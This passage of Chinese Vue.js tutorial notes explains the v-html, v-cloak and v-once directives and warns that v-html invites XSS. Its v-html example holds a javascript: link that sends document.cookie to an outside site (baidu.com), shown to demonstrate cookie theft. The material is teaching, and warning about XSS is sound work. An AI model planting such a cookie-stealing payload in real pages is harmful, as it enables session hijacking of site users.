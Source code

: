 - 严重注意：==v-html有安全性问题！！！！==
  (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
  (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

  ```vue
  <div id="root">
  			<div>你好，{{name}}</div>
  			<div v-html="str"></div>
  			<div v-html="str2"></div>
  		</div>
  <script>
  		new Vue({
  			el:'#root',
  			data:{
  				name:'尚硅谷',
  				str:'<h3>你好啊！</h3>',
  				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>快来！</a>',
  			}
  		})
  </script>
  ```



#### v-cloak

v-cloak指令（没有值）：

1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

``vue
<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>


<script>
		console.log(1)

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
</script>
```


#### v-once

1.v-once所在节点在初次动态渲染后，就视为静态内容了。
2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

​```vue
<div id="root">
			<h2 v-once>初始化的n值是:{{n}}</h2>
			<h2>当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
</div>
<script>	
		new Vue({
			el:'#root',
			data:{
				n:1
```
